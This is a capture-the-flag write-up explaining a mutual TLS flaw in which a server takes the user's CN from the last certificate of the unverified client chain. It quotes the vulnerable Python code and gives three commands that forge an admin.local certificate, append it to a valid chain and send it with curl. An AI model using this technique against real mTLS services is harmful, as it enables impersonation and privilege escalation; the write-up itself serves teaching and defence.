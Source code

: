 This challenge was based on an awesome [article](https://github.blog/2023-08-17-mtls-when-certificate-authentication-is-done-wrong/) about flawed Mutual TLS implementations by Michael Stepankin. Check out section "Chapter 1: Improper certificate extraction", in which he explains how certificate extraction errors can lead to manipulation of credentials. His team found this vulnerability in Keycloak (CVE-2023-2422).

In this challenge, the user is given a standard client certificate chain for mtls authentication. The chain consists of a certificate (with CN=user.local) and a private key. A regular mtls implementation, like used by Python's ssl package, will just check if there is a valid chain provided and discard the rest. However, the server uses [get_unverified_chain](https://docs.python.org/3/library/ssl.html#ssl.SSLSocket.get_unverified_chain), which returns the complete chain provided by the client, and it uses the last one to determine the user's CN.
```
for cert in ssl_socket.get_unverified_chain():
    cert = cert
cert = crypto.load_certificate(crypto.FILETYPE_ASN1, cert)
subject = cert.get_subject().CN
```
So by providing the valid chain + some bogus certificate, one can change their CN (`subject` in the code).

To exploit this, one can simply:

### 1. Generate fake certificate
`openssl req -newkey rsa:2048 -nodes -x509 -subj /CN=admin.local -out client2-fake.crt`
### 2. Add cert to chain
`cat client.pem client2-fake.crt > sploit.pem`
### 3. Make request with malicious chain
`curl -k --cert sploit.pem https://mtls.wwctf.com`